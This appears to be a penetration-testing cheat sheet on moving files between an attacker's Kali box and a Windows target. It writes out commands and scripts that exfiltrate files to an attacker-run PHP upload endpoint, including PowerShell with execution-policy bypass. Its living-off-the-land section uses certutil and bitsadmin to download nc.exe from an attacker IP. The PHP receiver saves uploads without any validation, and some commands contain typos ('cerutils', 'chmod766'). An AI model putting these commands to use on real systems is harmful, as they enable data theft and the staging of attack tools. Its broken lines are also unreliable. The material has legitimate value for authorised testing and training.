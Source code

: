 # File transfer

## Download

source: https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

### Python

```
python -m http.server 8080
```
### Apache

```
mv somefile /var/www/html
systemctl start apache2
```

## Upload

sources: 
- https://infosecwriteups.com/tip-uploading-files-from-windows-to-kali-using-php-63aadde872a9
- https://davidhamann.de/2019/04/12/powershell-invoke-webrequest-by-example/
- https://stackoverflow.com/questions/22491129/how-to-send-multipart-form-data-with-powershell-invoke-restmethod

### Php on Kali

```
vim upload.php

<?php
  $target_dir = "uploads/";
  $target_file = $target_dir . basename($_FILES["targetfile"]["name"]);
  move_uploaded_file($_FILES["targetfile"]["tmp_name"], $target_file)
?>

mv upload.php /var/www/html

mkdir /var/www/html/uploads
chown www-data.www-data /var/www/html/uploads
chmod766 /var/www/html/uploads

systemctl start apache2
```

### On Windows

```
powershell -nop -exec bypass Invoke-RestMethod -Uri http://IpAtt/upload.php -Method Post -Infile 'c:\path\to\file.txt'
```
or
```
curl -H Content-Type:"multipart/form-data" --form targetfile=@"c:\path\to\file.txt" -X Post -v http://IpAtt/upload.php
```
or
```
$fieldName = 'targetfile' # name of the field in upload.php
$filePath = 'C:\full\path\to\file.txt' # full path...
$url = 'http://AttackerIpAddress/upload.php'

Add-Type -AssemblyName 'System.Net.Http'

$client = New-Object System.Net.Http.HttpClient
$content = New-Object System.Net.Http.MultipartFormDataContent
$fileStream = [System.IO.File]::OpenRead($filePath)
$fileName = [System.IO.Path]::GetFileName($filePath)
$fileContent = New-Object System.Net.Http.StreamContent($fileStream)
$content.Add($fileContent, $fieldName, $fileName)
$result = $client.PostAsync($url, $content).Result
```

### Http on Kali

```
vim upload.html

<html>
  <head></head>
  <body>
    <form action="http://IpAtt/upload.php" method="POST" enctype="multipart/form-data">
      <br><br>
      Choose a file: <br>
      <input type="file" name="targetfile"><br>
      <input type="sumbit" name="submit" value="upload">
    </form>
  </body>
</html>
```
To upload on a browser at `http://AttackerIpAddress/upload.html`

## LolBas

```
xfreerdp +clipboard /u:myuser /p:mypass /v:VictimIP
cerutils -urlcache -split -f http://AttackerApacheIP/nc.exe nc.exe
bitsadmin /create MyDownload
bitsadmin /addfile MyDownload http://AttackerIP/nc.exe C:\Users\myuser\Downloads\nc.exe
bitsadmin /resume MyDownload
bitsadmin /info MyDownload /verbose
bitsadmin /complete MyDownload

```
